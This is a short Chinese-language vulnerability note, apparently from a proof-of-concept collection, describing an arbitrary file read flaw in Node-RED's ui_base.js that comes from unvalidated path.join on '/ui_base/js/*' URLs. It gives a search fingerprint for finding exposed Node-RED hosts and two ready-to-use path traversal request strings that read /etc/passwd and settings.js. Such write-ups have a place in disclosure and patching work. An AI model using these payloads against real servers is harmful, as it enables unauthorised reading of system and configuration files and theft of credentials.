

# Node-RED ui_base 任意文件读取漏洞

## 漏洞描述

Node-RED 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join，

缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的敏感数据，比如settings.js

## 漏洞影响

<a-checkbox checked>Node-RED</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Node-RED"</a-checkbox></br>

## 漏洞复现

访问页面


验证POC

```plain
/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
/ui_base/js/..%2f..%2f..%2f..%2fsettings.js
```




